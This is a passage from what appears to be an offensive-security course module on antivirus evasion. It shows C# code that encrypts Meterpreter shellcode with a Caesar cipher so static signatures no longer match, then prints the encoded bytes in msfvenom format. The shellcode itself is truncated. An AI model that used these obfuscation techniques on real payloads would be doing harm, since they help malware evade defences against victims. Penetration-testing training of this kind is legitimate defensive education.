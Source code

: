 > Listing 26 - Caesar cipher at work

This is a very simple routine and its reverse is just as simple. We can rotate the same number of letters to the left to regain the original text.

Obviously, this encryption scheme is inherently flawed from a communication security standpoint since it is very easy to break. However, it will work well for our purposes, since we can easily implement it without using external libraries and it will remove static signatures from the shellcode.

The first step is to create an application that can encrypt our shellcode. We'll create a new C# Console App project in Visual Studio called "Helper".

We'll generate Meterpreter shellcode, embed it in the C# code, and implement the encryption routine as displayed in Listing 27.

```
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
```

> Listing 27 - Encryption routine with Caesar cipher

In Listing 27, we chose a substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value. We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.

For us to be able to use the encrypted shellcode, we must print it to the console, which we can do by converting the byte array into a string with the _StringBuilder_[2](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_274-2) class and its associated _AppendFormat_[3](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_274-3) method. To obtain a string that has the same format as that generated by msfvenom, we'll use a format string[4](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_274-4) as highlighted in Listing 28.

```
StringBuilder hex = new StringBuilder(encoded.Length * 2);
foreach(byte b in encoded)
{
    hex.AppendFormat("0x{0:x2}, ", b);
}

Console.WriteLine("The payload is: " + hex.ToString());
```
